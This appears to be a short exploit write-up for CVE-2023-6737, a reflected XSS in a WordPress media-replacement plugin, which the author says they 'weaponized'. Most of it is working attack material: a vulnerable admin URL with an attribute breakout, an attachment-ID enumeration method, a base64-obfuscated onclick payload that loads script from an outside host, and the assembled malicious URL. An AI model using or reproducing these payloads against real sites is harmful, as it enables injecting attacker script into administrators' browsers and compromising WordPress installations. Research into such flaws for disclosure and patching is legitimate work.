

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6737

>[!note]
> I do not take credit for finding this, I only simply weaponized it as it was missing technical details on exploitation.

## Admin+ Reflected XSS

```
/wp-admin/upload.php?page=enable-media-replace%2Fenable-media-replace.php&action=media_replace&attachment_id=26&SHORTPIXEL_DEBUG=%22+onclick=alert(1)>
```

We have full attribute control and leverage `%22` to breakout of the attribute. Attempting to add remote scripts outside of the html node will result in additional filtering. 



### Weaponization of Onclick Attribute

Firstly, you may enumerate attachment IDs via the following (Unauthenticated). A valid attachment ID will provide a valid page. Simply throw in the URL into burpsuite intruder and do a number list to enumerate a valid attachment ID

```
http://localhost:1337/?attachment_id=32
```

> Un-base 64'd script include
```
echo 'var s = document.createElement("script"); s.src = "https://script.com"; document.body.appendChild(s);' | base64
```

> Base64
```
dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK
```


> Malicious Onclick
```
onclick=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))
```

> Full URL
```
/wp-admin/upload.php?page=enable-media-replace%2Fenable-media-replace.php&action=media_replace&attachment_id=26&SHORTPIXEL_DEBUG=%22+onclick=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))>
```